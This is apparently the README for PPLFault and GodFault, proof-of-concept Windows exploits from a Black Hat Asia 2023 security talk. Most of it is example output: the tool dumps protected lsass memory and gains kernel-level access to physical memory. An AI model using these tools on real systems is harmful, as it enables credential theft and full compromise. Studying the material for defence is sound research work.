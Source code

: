 # PPLFault

By [Gabriel Landau](https://twitter.com/GabrielLandau) at [Elastic Security](https://www.elastic.co/security-labs/).

From [PPLdump Is Dead. Long Live PPLdump!](https://www.blackhat.com/asia-23/briefings/schedule/#ppldump-is-dead-long-live-ppldump-31052) presented at [Black Hat Asia 2023](https://www.blackhat.com/asia-23).

## PPLFault

Exploits a TOCTOU in Windows Code Integrity to achieve arbitrary code execution as WinTcb-Light then dump a specified process.  For more details on the exploit, see my [slides](http://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf) and/or talk.

### Example Output

```
PS C:\Users\user\Desktop> cmd /c ver

Microsoft Windows [Version 10.0.25346.1001]
PS C:\Users\user\Desktop> tasklist | findstr lsass
lsass.exe                      992 Services                   0     76,620 K
PS C:\Users\user\Desktop> (Get-NtProcess -Access QueryLimitedInformation -Pid 992).Protection

Type           Signer
----           ------
ProtectedLight Lsa


PS C:\Users\user\Desktop> dir *.dmp
PS C:\Users\user\Desktop> .\PPLFault.exe -v 992 lsass.dmp
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 528 bytes of shellcode written over DLL entrypoint
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\PPLFaultTemp\PPLFaultPayload.dll
 [+] Placeholder: C:\PPLFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Dump saved to: lsass.dmp
 [+] Dump is 74.9 MB
 [+] Operation took 937 ms
PS C:\Users\user\Desktop> dir *.dmp


    Directory: C:\Users\user\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/1/2023  11:18 AM       78581973 lsass.dmp
```

## GodFault

Exploits the same TOCTOU as PPLFault.  However instead of dumping a process, it migrates to CSRSS and exploits a vulnerability in `win32k!NtUserHardErrorControlCall` from [ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD/blob/0a4720f7e07e86a9ac2783411b81efac14938e26/Exploit.c#L69-L81) to decrement `KTHREAD.PreviousMode` from `UserMode` (1) to `KernelMode` (0).  It proves "God Mode" access by opening `\Device\PhysicalMemory`, normally inaccessible from `UserMode`, as `SECTION_ALL_ACCESS`.

### Example Output

```
C:\Users\user\Desktop>GodFault.exe -v
 [?] Server does not appear to be running.  Attempting to install it...
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 2304 bytes of shellcode written over DLL entrypoint
 [+] CSRSS PID is 772
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\GodFaultTemp\GodFaultPayload.dll
 [+] Placeholder: C:\GodFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Testing initial ability to acquire PROCESS_ALL_ACCESS to System: Failure
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Thread 6248 (KTHREAD FFFFA283B0A62080) has been blessed
 [+] Testing post-exploit ability to acquire PROCESS_ALL_ACCESS to System: Success
 [+] Opened \Device\PhysicalMemory.  Handle is 0x1b4
 [+] Opened System process as PROCESS_ALL_ACCESS.  Handle is 0x1c0
 [+] Press any key to continue...
 [+] No cleanup necessary.  Backup does not exist.
```

## Python
PoC that achieves arbitrary code execution as WinTcb-Light without the CloudFilter API.  See [python/README.md](python/README.md).

## Tested Platforms

|  | Windows 11 22H2 22621.1702 (May 2023) | Windows 11 Insider Canary 25346.1001 (April 2023) |
| - | - | - |
| PPLFault | ✔️ | ✔️ |
| GodFault | ✔️ | ❌ Insider PreviousMode mitigation [bugchecks](https://twitter.com/GabrielLandau/status/1597001955909697536?s=20) |

# License

PPLFault is covered by the [ELv2 license](LICENSE.txt).  It uses [phnt](https://github.com/winsiderss/systeminformer/tree/25846070780183848dc8d8f335a54fa6e636e281/phnt) from SystemInformer under the [MIT license](phnt/LICENSE.txt).

# Credits
Inspired by [PPLdump](https://github.com/itm4n/PPLdump) by [Clément Labro](https://infosec.exchange/@itm4n), which Microsoft [patched](https://itm4n.github.io/the-end-of-ppldump/) in July 2022.

[ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD) was created by [Austin Hudson](https://twitter.com/ilove2pwn_), who released it when Microsoft patched PPLdump.
